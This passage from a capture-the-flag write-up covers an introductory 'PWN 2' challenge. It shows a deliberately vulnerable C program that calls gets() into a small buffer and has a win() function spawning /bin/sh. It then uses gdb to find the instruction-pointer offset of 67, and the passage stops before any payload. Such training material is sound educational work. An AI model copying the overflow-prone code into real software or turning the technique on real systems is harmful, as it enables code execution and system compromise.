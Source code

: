 ```python
```

#### <a name="pwn2"></a>Intro to PWN 2 - PWN - 50 points

The second challenge comes again with souce in `main.c `and a binary called `pwnme`. The challenge reads:

```
#2. Control the Instruction Pointer
```

This time the binary is 32bit:

```bash
$ file pwnme                                                                                                                                                                      
pwnme: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically 
linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=
ec230d565ec0c9bb3ed87968b73ab498a7a8e0cf, for GNU/Linux 3.2.0, not stripped
```

The `main.c` source reads:

```c
#include <stdlib.h> 
#include <stdio.h> 

void win(){ 
    system("/bin/sh"); 

} 

void vuln(){
    char buf[55]; 
    gets(buf); 
} 

int main(){ 
    puts("Level 2: Control the IP\n"); 
    vuln(); 
    return 0; 
} 
```

So this reads to me like a `ret2win` challenge. In this case the `win` function is literally called `win()`. I start by finding what offset I begin to control the instruction pointer:

```bash
$ gdb ./pwnme
gdb-peda$ pattern_create 96
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA'
gdb-peda$ r
Stopped reason: SIGSEGV
0x41334141 in ?? ()
gdb-peda$ pattern_offset 0x41334141
1093878081 found at offset: 67
```
